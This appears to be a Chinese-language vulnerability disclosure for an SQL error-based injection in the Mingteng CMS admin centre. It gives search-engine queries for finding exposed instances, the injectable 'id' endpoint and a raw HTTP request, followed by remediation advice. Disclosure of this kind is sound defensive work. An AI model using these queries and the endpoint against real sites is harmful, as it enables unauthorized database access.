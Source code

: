 **漏洞描述**

明腾CMS后台管理中心系统存在SQL注入漏洞。

 **空间测绘**

```
Fofa：title="明腾CMS管理中心"
quake：title:"明腾CMS管理中心"
hunter：web.title="明腾CMS管理中心a"
```

**漏洞复现**

访问如下路径会报错：

```
http://xxx.com/index.php?m=mingteng&c=Smstemplate&a=delTemplate&id=x
```

此处参数id存在SQL报错注入：

```yaml

GET /index.php?m=mingteng&c=Smstemplate&a=delTemplate&id=x HTTP/1.1
Host: xxx.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

**修复意见**

1、请联系厂商进行修复。 

2、如非必要，禁止公网访问该系统。 

3、设置白名单访问。